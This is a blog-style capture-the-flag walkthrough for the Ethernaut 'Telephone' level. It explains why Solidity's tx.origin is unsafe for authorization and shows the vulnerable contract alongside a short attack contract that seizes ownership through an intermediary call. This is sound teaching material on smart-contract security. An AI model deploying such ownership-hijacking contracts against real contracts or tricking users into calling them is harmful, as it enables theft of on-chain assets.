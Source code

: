 ```yaml
---
title: Ethernaut 0x4 - Telephone Walkthrough
date: 2021-04-20 10:54:43.423 +0800 
categories:
  - "Write Up"
---
```


### Overview

Claim ownership of the contract to win this level. This is an introduction to the concept of `tx.origin` .

`Telephone.sol`

```solidity
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  constructor() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

{{% notice info %}}
`tx.origin` is a global variable in Solidity which returns the address of the account that sent the transaction.
{{% /notice %}}


### Transaction Origins and Authorization

Never use `tx.origin` for authorization, another contract can have a method which will call your contract (where the user has some funds for instance) and your contract will authorize that transaction as your address is in `tx.origin`.

https://docs.soliditylang.org/en/v0.8.0/security-considerations.html#tx-origin

The `tx.origin` global variable refers to the original external account (EoA) that **started** the transaction while `msg.sender` refers to the immediate account (it could be external or another contract account) that invokes the function.

If there are multiple function invocations on multiple contracts, `tx.origin` will always refer to the account that started the transaction irrespective of the stack of contracts invoked.

### Solution

Head over to [Remix IDE](https://remix.ethereum.org/) and deploy a malicious contract `TelephoneHack.sol`. If a victim is tricked into using this contract, the `tx.origin` will contain his address, while `msg.sender` will contain the malicious contract's address.

`TelephoneHack.sol`

```solidity
pragma solidity ^0.6.0;

import './Telephone.sol';

contract TelephoneHack {
    
    address private instance = 0x943C7fa484528dbc47Cc51F5592E9dea87bDCdc1;
    address private attacker;

    Telephone public originalContract = Telephone(instance);
    
    constructor() public {
        originalContract = Telephone(instance);
        attacker = msg.sender;
    }
    
    function changeOwner() public {
        originalContract.changeOwner(attacker);
    }
    
}
```

